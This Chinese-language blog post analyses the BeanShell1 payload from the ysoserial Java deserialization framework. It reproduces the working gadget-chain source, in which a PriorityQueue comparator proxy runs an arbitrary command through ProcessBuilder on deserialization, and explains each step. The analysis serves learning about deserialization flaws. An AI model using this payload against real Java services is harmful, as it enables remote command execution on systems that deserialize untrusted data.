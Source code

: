 ```yaml
---
title: Java反序列化框架ysoserial学习
date: 2017-9-17 11:19:00
tags: 
- 安全学习
- Java
author: Lin
---
```

## 简介
[ysoserial](https://github.com/frohoff/ysoserial)是github上一个Java反序列化工具框架，它包含常见的Java反序列化类型，包含Jenkins，WebLogic及JBoss等反序列化漏洞的利用Payload，及其生成过程。今天分析的BeanShell1只是其中的一个例子，当中用到很多Java中比较高深的技术，学习反序列化的同时，一并学习下Java。
<!--more-->
## BeanShell1
这个Payload是利用BeanShell实现的，实现过程也比较巧妙。BeanShel是Java的动态脚本解释器，可以让Java项脚本语言一样运行。开始我们的代码分析了，ysoserial可以从Github上clone，我是在Eclipse中编译的。
```
	public class BeanShell1 extends PayloadRunner implements ObjectPayload<PriorityQueue> {
 
    public PriorityQueue getObject(String command) throws Exception {
	// BeanShell payload
	String payload = "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{\"" + command + "\"}).start();return new Integer(1);}";

	// Create Interpreter
	Interpreter i = new Interpreter();

	// Evaluate payload
	i.eval(payload);

	// Create InvocationHandler	
	XThis xt = new XThis(i.getNameSpace(), i);
	InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);

	// Create Comparator Proxy
	Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

	// Prepare Trigger Gadget (will call Comparator.compare() during deserialization)
	final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
	Object[] queue = new Object[] {1,1};
	Reflections.setFieldValue(priorityQueue, "queue", queue);
	Reflections.setFieldValue(priorityQueue, "size", 2);

	return priorityQueue;
    }
 
    public static void main(final String[] args) throws Exception {
	PayloadRunner.run(BeanShell1.class, args);
    }
}
```
从代码可以看出，BeanShell1继承自PayloadRunner，实现了ObjectPayload接口。它定义了一个函数getObject,这个是接口ObjectPayload要求的，也是整个框架中的重要组成，后面会详细分析。同样还有一个静态的主函数main，作为程序运行的入口。  
PayloadRunner并不是直接接受输入的命令，BeanShell1作为其子类，才是反序列化真正的入口。从代码的追开始看起。
## BeanShell1的main函数
真正的入口在BeanShell1中的main函数中，调用方式为
```
	PayloadRunner.run(BeanShell1.class, args)
```	
args就是传入的命令了。BeanShell1是关键。BeanShell1.class的调用是用来获取BeanShell1这个类的运行时类。如果是一个对象实例的话，可以通过object.getClass()来获取。这个方法时定义在Object类中。运行时类Runtime Class是Java中很多黑魔法的开始，也使得Java功能强大的原因之一。这里，我们只需要记住，PayloadRunner.run接受的第1个参数是BeanShell1的运行时类就OK了。
## PayloadRunner.run函数
开始跟踪PayloadRunner.run函数的调用轨迹。
```
public class PayloadRunner {
	public static void run(final Class<? extends ObjectPayload<?>> clazz, final String[] args) throws Exception {
		// ensure payload generation doesn't throw an exception
		byte[] serialized = new ExecCheckingSecurityManager().wrap(new Callable<byte[]>(){
			public byte[] call() throws Exception {
				final String command = args.length > 0 && args[0] != null ? args[0] : "calc.exe";

				System.out.println("generating payload object(s) for command: '" + command + "'");

				ObjectPayload<?> payload = clazz.newInstance();
                final Object objBefore = payload.getObject(command);

				System.out.println("serializing payload");
				byte[] ser = Serializer.serialize(objBefore);
				Utils.releasePayload(payload, objBefore);
                return ser;
		}});

		try {
			System.out.println("deserializing payload");
			final Object objAfter = Deserializer.deserialize(serialized);
		} catch (Exception e) {
			e.printStackTrace();
		}

	}

}
```
从代码中看出这个函数很小，功能很简单，生成了Payload的序列化字节码serialized ，交由Deserializer进行反序列化，触发Payload执行。下面来看具体的生成流程。
### 字节码的生成
* 通过包装函数ExecCheckingSecurityManager了一段代码，为什么要加一个层安全管理，这个现在还不知道。一定有它的原因，随后再学习了。
* 判断传入的args,生成命令字符串。
```
ObjectPayload<?> payload = clazz.newInstance();
final Object objBefore = payload.getObject(command);
```
* 首先通过运行时类，直接获取一个对象实例，然后，调用getObject函数，生成待序列化的对象。  
* getObject函数
getObject函数定义在BeanShell1中，因为BeanShell1实现了ObjectPayload接口，所以一定要定义getObject函数，这也是yso反序列化框架里最最重的一个函数。  
1. 首先生成了payload字符串，也就是要执行的命令，这里可以看到是一个Java的函数的文本形式。
2. 下面生成了一个BeanShell的解释器Interpreter实例，BeanShell是Java的一个工具包，用来以脚本形式来执行Java代码的方式。当然可以把它嵌入到正常的Java代码中去，这就是bsh.Interpreter.
3. 调用实例的eval函数来解析payload，当然解析成功也不会执行，因为是一个函数，而且记着我们现在是getObject中，正在生成payload序列过程中，此时当然不能执行命令了。我们需要的是在反序列化时执行命令。  
可以这样理解，当BeanShell解析过payload后，只是在解析器实例的命名空间中生成了一个函数。我们也知道了，执行命令的关键在于如何触发这个函数的执行。
4. 下面一行，生成了一个XThis实例，代码里的注释告诉我们，这是为了创建一个触发器InovcationHandler，通过查看源码我们知道XThis实例就代表了那段解析过的payload，也就是说生成那个compare函数，就是XThis实例的函数了。
```
InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);
```
这行代码就是链式调用，首先是调用getFileld函数，得到invocationHandler的成员(Field类实例)，通过查看源码，可以知道，XThis对象是有一个公有成员，invocationHandler的，我们知道，一个类的实例的成员，是不能直接访问的，要通过obj.member，这样的形式访问的，这里应该是Java的一个黑魔法之一，可以直接访问一个对象的对象实例。至于这是怎么实现的，后面再研究了。  
返回了这个对象的Field实例后，又调用了Field的get函数，想必这就是返回真正的InvocationHandler 对象了，果不其然，在XThis中，invocationHandler成员的类型正是InvocationHandler接口。
也就是说InvocationHandler在被调用时，会自动调用它的函数invoke。
```
Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);
```
这段代码生成了一比较器代理，用于随后的优先队列。
5. 最后的反序列对象
```
final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
			Object[] queue = new Object[] {1,1};
			Reflections.setFieldValue(priorityQueue, "queue", queue);
			Reflections.setFieldValue(priorityQueue, "size", 2);
```
剩下的就比较好理解了，生成了一个优先队列，设定它的比较器为刚刚生成的比较器，给它添加了两个对象成员。为什么要添加两个对象呢，因为我们要触发comparator函数，优先队列有两个元素时，会自动触发一次比较。
然后返回这个对象。
### 生成序列码
根据返回的优先队列的对象，进行序列化，生成了序列化字节码，用于后面的反序列化。
### 进行反序列化操作
PayloadRunner.run函数最后对生成的序列化字节码进行反序列化操作。触发命令执行。

## 命令执行的触发流程
最后也时最精彩的部分了，反序列化时，生成了一个优先队列对象，然后恢复这个对象里的数据，因为在生成序列化对象时，我们给它里面塞了两个对象。当它恢复时，它自动执行了comapator代理的invocationHandler，也就执行了BeanShell1中动态添加的方法，从前面流程可以看到，我们定义在这个函数里的命令，也就会得到执行了。  
这也是这个漏洞利用的最巧妙的地方。
## 总结
整个命令执行的过程比较简单，但其中用到几个Java高级技术，还需要进一步学习。
1. Reflections机制，如何把一个对象的成员单独拎出来，可以将由其他对象访问。
2. InvocationHandler接口，一般来说接口是不能实例化的，但在代码中看到了把一个对象转化为接口实例。
3. Java的代理机制。

